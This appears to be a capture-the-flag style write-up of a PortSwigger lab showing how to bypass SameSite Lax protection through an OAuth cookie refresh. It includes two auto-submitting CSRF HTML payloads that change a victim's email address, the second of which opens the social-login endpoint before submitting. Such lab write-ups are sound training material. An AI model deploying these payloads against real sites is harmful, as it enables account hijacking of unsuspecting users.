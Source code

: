 ```yaml
---
author: Nithissh S
pubDatetime: 2024-10-04T15:22:00Z
modDatetime: 2024-10-04T09:12:47.400Z
title: SameSite Lax bypass via cookie refresh
slug: csrf-portswigger-lab-6
featured: false
draft: false
tags:
  - BSCP
  - CSRF
description:
  This lab's change email function is vulnerable to CSRF. To solve the lab, perform a CSRF attack that changes the victim's email address. You should use the provided exploit server to host your attack. The lab supports OAuth-based login. You can log in via your social media account with the following credentials `wiener:peter`   
---
```


## Objective 

This lab's change email function is vulnerable to CSRF. To solve the lab, perform a CSRF attack that changes the victim's email address. You should use the provided exploit server to host your attack.

The lab supports OAuth-based login. You can log in via your social media account with the following credentials: `wiener:peter` 

## Solution 

We have a particular SSO login now where when you click on the `My Account` page it redirects back to a `SSO login page` and you can login with credential like `wiener:peter`

Once after entering the credentials and click on `Login` and you need to authorize this application 

![](../../assets/images/bscp/csrf/csrf-22.png)

Once after login as fast as I can in less than `120 seconds` and executed the following CSRF POC 

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0a5c0087037bb1f6808ab2d8009900d0.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="test&#64;gmail&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

And it works, I can able to change the mail ID just like what we saw in the previous lab on `Same site lax method override`

But you remember when you click on `My Account` it automatically redirects and initiates a Oauth flow right and for that reason, let's fine tune our payload to initiate a request to `/social-login` endpoint and then wait for 5 seconds and it will reinitiate a `Update email` request 

```html
<form method="POST" action="https://0a5c0087037bb1f6808ab2d8009900d0.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="pwned@web-security-academy.net">
</form>
<script>
    window.open('https://0a5c0087037bb1f6808ab2d8009900d0.web-security-academy.net/social-login');
    setTimeout(changeEmail, 5000);

    function changeEmail(){
        document.forms[0].submit();
    }
</script>
```

Now I've submitted the payload on to the exploit server and then stored it, then deliver it to victim.. which solves our lab 

![](../../assets/images/bscp/csrf/csrf-23.png)